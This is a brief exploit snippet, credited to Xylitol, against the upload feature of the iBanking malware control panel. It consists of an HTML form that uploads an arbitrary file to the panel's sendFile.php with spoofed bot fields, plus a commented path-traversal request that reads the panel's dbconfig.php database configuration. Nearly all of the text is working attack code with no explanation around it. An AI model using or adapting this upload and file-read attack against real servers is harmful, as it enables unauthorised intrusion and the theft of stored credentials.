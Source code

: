 

Type: Panel Upload Vulnerability

Author: [Xylitol](https://twitter.com/Xylit0l)
```
<!-- iBanking panel upload vulnerability -->
<!-- get.php?p=..&i=.&f=dbconfig.php -->
<form method="POST" action="http://localhost/smsbot/sendFile.php" enctype="multipart/form-data">
FiLEZ: <input type="file" name="uploadedfile" /><br />
<input type="hidden" name="bot_id" value="500" />
<input type="hidden" name="imei" value="000000000000000" />
<input type="submit" value="Pwn" />
</form>
```
